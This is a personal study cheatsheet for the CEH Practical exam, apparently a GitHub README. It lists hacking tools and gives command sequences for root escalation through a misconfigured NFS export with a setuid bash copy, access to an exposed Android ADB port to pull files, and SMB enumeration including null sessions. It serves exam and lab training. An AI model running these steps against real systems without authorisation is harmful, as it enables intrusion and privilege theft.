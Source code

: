 # CEH_PRACTICAL
This my cheatsheet that i used to study for CEH_PRACTICAL
Tools
1.	Nmap/Zenmap
2.	Wireshark
3.	Metasploit
4.	Hydra
5.	Cryptool / BCTextEncoder
6.	Veracrypt
7.	Burp suite
8.	Hydra
9.	Hashes.com/HashMyfiles/HashCalc
10.	Snow steganography/OpenStego/Covert TCP
11.	SQL Injection / nslookup/sqlmap/nikto
12.	Android Debugging Bridge (adb)
# PRACTICAL TIME
https://github.com/dhabaleshwar/CEHPractical/blob/main/Everything%20You%20Need.md
https://github.com/CyberHackPr/CEH_PRACTICAL/pulls Click Here for Notes


**Priviledge Escalation**
Exploiting misconfigured NFS (port 2049)
•	nmap -sV —p 2049 IP/Subnet
•	sudo apt-get install nfs-common
•	nmap -sV —script=nfs-showmount <Target_IP>
•	check available mounts: showmount -e <Target_IP> -> we will see /home directory
•	mkdir /tmp/nfs
•	sudo mount -t nfs 10.10.1.9:/home /tmp/nfs
•	cd /tmp/nfs
•	sudo cp /bin/bash .
•	sudo chmod +s bash -> it will be highlighted in red
•	ls -la
•	sudo df -h
•	sudo chmod +s bash
after them, In another terminal:
•	Access to target using SSH
•	./bash -p and we're root!
•	cd /home
•	ls -la
•	Find the flag: find / -name "*.txt" -ls 2> /dev/null

**ADB Android Hacking** 
Perform deep scan on the elf files and obtain the last 4 digits of SHA 384 hash of the file with highest entropy value locate into android folder
•	Scan adb port: nmap ip -sV -p 5555
•	Connect adb: adb connect IP:5555
•	Access mobile device: adb shell
•	Elevate privilege using: sudo -i (if it is possile)
•	pwd --> ls --> cd sdcard/Notifications/Scan --> ls --> cat secret.txt (If you can't find, check in others folders)
•	Download files: adb pull /sdcard/Notifications/Scan Do it in another shell, without adb connection!
•	We've three elf files, now we need to calcolate entropy for each of them using this command: ent file.elf
•	After selecting file.elf with highest entropy, we need to calculate hash of SHA 384: sha384sum file.elf and consider only the last 4 digits of the hash result.

SMB Connection
smbclient -L <TARGET_IP> -N
smbclient -L <TARGET_IP> -U <USER>
smbclient //<TARGET_IP>/<USER> -U <USER>
smbclient //<TARGET_IP>/admin -U admin
smbclient //<TARGET_IP>/public -N #NULL Session
## SMBCLIENT
smbclient //<TARGET_IP>/share_name
help
ls
get <filename>


